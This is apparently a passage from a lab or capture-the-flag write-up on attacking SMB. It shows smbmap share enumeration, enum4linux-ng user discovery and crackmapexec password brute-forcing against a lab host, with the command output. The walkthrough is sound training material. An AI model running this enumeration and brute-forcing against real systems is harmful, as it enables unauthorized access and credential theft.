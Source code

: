 We ssh to target and get the flag:
```c
ssh robin@10.129.203.6
```

### Attacking SMB

4. What is the name of the shared folder with READ permissions? 

So we need to use smbmap for this, as this tool will give us info about permissions, not smbclient
```c
smbmap -H 10.129.203.6
[+] IP: 10.129.203.6:445	Name: 10.129.203.6                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	GGJ                                               	READ ONLY	Priv
	IPC$                                              	NO ACCESS	IPC Service (attcsvc-linux Samba)
```

5. What is the password for the username "jason"? 

So first of all we need to find the username jason, for this we use:
```c
enum4linux-ng 10.129.203.6 -A

=====================================
|    Users via RPC on 10.129.203.6    |
 =====================================
[*] Enumerating users via 'querydispinfo'
[+] Found 2 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 2 user(s) via 'enumdomusers'
[+] After merging user results we have 2 user(s) total:
'1000':
  username: jason
  name: ''
  acb: '0x00000010'
  description: ''
'1001':
  username: robin
  name: ''
  acb: '0x00000010'
  description: ''

```

The output of the above command is much longer, but I included only the piece with username
Then we can use crackmapexec to bruteforce password for jason:
```c
crackmapexec smb 10.129.203.6 -u 'jason' -p pws.list --local-auth
SMB         10.129.203.6    445    ATTCSVC-LINUX    [*] Windows 6.1 Build 0 (name:ATTCSVC-LINUX) (domain:ATTCSVC-LINUX) (signing:False) (SMBv1:False)
SMB         10.129.203.6    445    ATTCSVC-LINUX    [-] ATTCSVC-LINUX\jason:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.203.6    445    ATTCSVC-LINUX    [-] ATTCSVC-LINUX\jason:theman STATUS_LOGON_FAILURE 
SMB         10.129.203.6    445    ATTCSVC-LINUX    [-] ATTCSVC-LINUX\jason:bandit STATUS_LOGON_FAILURE 
.
.
.
SNIP
.
.
.
```